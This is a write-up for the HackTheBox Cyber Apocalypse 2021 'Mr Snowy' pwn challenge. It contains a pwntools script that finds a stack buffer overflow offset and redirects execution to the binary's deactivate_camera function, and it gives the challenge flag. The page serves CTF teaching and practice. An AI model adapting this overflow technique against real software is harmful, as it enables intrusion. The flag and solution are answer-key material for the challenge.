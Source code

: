 ```yaml
---
name: Mr Snowy (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Pwn
description: Writeup for Mr Snowy (Pwn) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Mr Snowy

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/20FkOdoMiRU/0.jpg)](https://youtu.be/20FkOdoMiRU?t=1434s "HTB Cyber Apocalypse CTF 2021: Mr Snowy")

## Challenge Description

> Mr Snowy There is ❄️ snow everywhere!! Kids are playing around, everything looks amazing. But, this ☃️ snowman... it scares me.. He is always ? staring at Santa's house. Something must be wrong with him.

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Find offset to EIP/RIP for buffer overflows
def find_ip(payload):
    # Launch process and send payload
    p = process(exe)
    p.sendlineafter(b'>', b'1')
    p.sendlineafter(b'>', payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    # ip_offset = cyclic_find(p.corefile.pc)  # x86
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './mr_snowy'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(500))

# Start program
io = start()

# Build the payload
payload = flat({
    offset: elf.symbols.deactivate_camera
})

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(b'>', b'1')
io.sendlineafter(b'>', payload)

# Got Shell?
io.interactive()
```
{% endcode %}

Flag: `HTB{d4sh1nG_thr0ugH_th3_sn0w_1n_4_0n3_h0r53_0p3n_sl31gh!!!}`
